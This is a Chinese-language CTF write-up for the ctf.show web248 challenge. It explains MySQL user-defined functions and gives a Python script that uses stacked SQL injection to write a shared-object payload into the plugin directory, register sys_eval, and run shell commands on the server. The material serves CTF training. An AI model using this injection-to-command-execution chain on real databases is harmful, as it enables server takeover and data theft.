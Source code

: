 爆金币

![2471](/medias/show-sql/2471.png)

## web 248 UDF注入

参考：[【Web248(UDF注入）】](https://boogipop.com/2023/03/02/CTFSHOW-SQL%E6%B3%A8%E5%85%A5/#Web248-UDF%E6%B3%A8%E5%85%A5%EF%BC%89)

udf 全称为：user defined function，意为用户自定义函数；用户可以添加自定义的新函数到Mysql中，以达到功能的扩充，调用方式与一般系统自带的函数相同，例如 contact()，user()，version()等函数。

写入位置：/usr/lib/MySQL目录/plugin

用法：
```sql
create function sys_eval returns string soname 'hack.so';
select sys_eval('whoami');
```

不过这道题是get传值，所以有长度限制，就得分段来传。可以先生成多个文件，再通过concat拼接成完整的so文件。

参考博客：[【https://www.sqlsec.com/tools/udf.html】](https://www.sqlsec.com/tools/udf.html)

在这个大佬博客里找到**64位linux的16进制payload，赋值给脚本里的udf变量**

太厉害了，膜拜大佬。sql注入漏洞变成后门/提权，突然觉得很行

```python
import requests
url="http://2e9c2d13-5f3c-4a05-ab49-0d087d673b98.challenge.ctf.show/api/"
udf=""
udfs=[]
for i in range(0,len(udf),5000):
    udfs.append(udf[i:i+5000])
#写入多个文件中
for i in udfs:
    url1=url+f"?id=1';SELECT '{i}' into dumpfile '/tmp/"+str(udfs.index(i))+".txt'%23"
    requests.get(url1)

#合并文件生成so文件
url2=url+"?id=1';SELECT unhex(concat(load_file('/tmp/0.txt'),load_file('/tmp/1.txt'),load_file('/tmp/2.txt'),load_file('/tmp/3.txt'))) into dumpfile '/usr/lib/mariadb/plugin/hack.so'%23"
requests.get(url2)

#创建自定义函数并执行恶意命令
requests.get(url+"?id=1';create function sys_eval returns string soname 'hack.so'%23")
r=requests.get(url+"?id=1';select sys_eval('cat /f*')%23")
print(r.text)
```
